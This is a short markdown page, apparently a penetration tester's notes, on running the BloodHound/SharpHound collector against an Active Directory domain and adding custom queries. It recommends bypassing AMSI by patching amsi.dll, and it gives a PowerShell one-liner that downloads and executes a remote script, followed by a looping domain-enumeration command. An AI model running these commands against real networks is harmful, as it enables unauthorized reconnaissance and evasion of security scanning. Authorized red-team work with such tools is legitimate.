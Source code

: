 # Invoke-BloodHound
It is recommended to [patch amsi.dll](https://github.com/okazymyrov/piki/blob/master/PowerShell.md#patching-amsidll-amsiscanbuffer-by-rasta-mouse) first.
```powershell
iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1')
Invoke-BloodHound -Domain <domain> -DomainController <ip> -CollectionMethod All -Loop -LoopInterval 00:05:00 -LoopDuration 04:00:00
```

# Bloodhound CustomQueries
[A collection of custom](https://github.com/okazymyrov/piki/blob/master/customqueries.json) queries for BloodHound based on [Bloodhound-CustomQueries](https://github.com/ZephrFish/Bloodhound-CustomQueries) from 08.07.22.
## How to 
Add the [customqueries.json](https://github.com/okazymyrov/piki/blob/master/customqueries.json) file to C:\Users\<INSERT USER>\AppData\Roaming\bloodhound\customqueries.json on Windows or ~/.config/bloodhound/customqueries.json on Linux/Mac.
